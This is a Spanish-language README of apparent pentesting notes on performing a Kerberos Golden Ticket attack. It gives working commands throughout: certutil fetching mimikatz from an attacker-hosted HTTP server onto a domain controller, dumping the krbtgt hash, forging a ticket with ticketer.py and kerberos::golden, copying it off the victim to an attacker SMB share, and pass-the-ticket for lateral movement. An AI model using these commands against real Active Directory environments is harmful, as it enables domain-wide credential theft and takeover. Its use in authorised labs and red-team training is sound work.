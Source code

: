 # Que es un Golden Tiket Attack?

# Efectuar Golden Ticket Attack
Para comenzar debemos subir el `mimikatz` al DC, podemos hacer por con `upload` en una sesión de evil-winrm o con:
```
certutil.exe -f -urlcache -split http://192.168.145.133:8000/mimikatz.exe mimikatz.exe
```
Posteriormente ejecutamos el mimikatz con `mimikatz.exe` y en la sesión interactiva ponemos lo siguiente:
```
lsadump::lsa /inject /name:krbtgt
```
Ahora creamos un ticket con ticketer.py ejecutando el siguiente comando:
```
ticketer.py -nthash <hash_NTLM> -domain-sid <sid_krbtgt> -domain <dominio> <nombre_exportación>
```
[Ver ejemplo](Images/users/README.md)

# Movimiento Lateral
Podemos crear un `golden.kirbi` para cargarlo con mimikatz en una máquina y ganar privilegios de acceso a un equipo, para ello en una sesión de mimikatz haremos lo siguiente:
```
kerberos::golden /domain:<dominio>  /sid:<sid_krbtgt> /rc4:<hash_NTLM> /name:<nombre de usuario a Impersonalizar> /ticket:golden.kirbi
```
Luego nos podemos traer ese ticket a nuestro equipo  con `download` en una sesión de evil-winrm o creando un recurso compartido a nivel de red con:

Máquina atacante:
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
Máquina víctima:
```
copy golden.kirby \\<ip_atacante>\smbFolder\golden.kirbi
```
Ahora nos conectamos al equipo donde queremos hacer un `Pass The Ticket`, subimos el mimikatz, lo ejecutamos y en la sesión interactiva ponemos lo siguiente:
```
kerberos::ptt golden.kirby
```
